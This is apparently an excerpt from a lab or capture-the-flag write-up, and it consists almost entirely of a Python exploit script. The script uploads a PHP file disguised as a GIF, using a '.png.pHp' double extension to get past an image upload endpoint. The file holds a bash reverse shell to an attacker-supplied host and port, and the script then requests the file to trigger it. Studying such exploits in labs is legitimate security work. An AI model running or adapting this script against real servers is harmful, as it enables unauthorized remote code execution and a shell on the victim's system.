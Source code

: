 ![image.png](image%201.png)

`nano monitorrexploit.py`

```bash
import requests
import os
import sys
import random
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

if len (sys.argv) != 4:
  print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    targetFile = str(random.randint(1000, 10000))
    data = f"-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"{targetFile}.png.pHp\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"
    print(data)
    cookies = {"isHuman" : "1"}

    postReg = requests.post(url, headers=headers, data=data, cookies=cookies, verify=False)
    print(postReg.text)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + f"/assets/data/usrimg/{targetFile}.png.pHp"
    print(url)
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    getReq=requests.get(url, headers=headers, cookies=cookies, verify=False)
    print(getReq.text)
```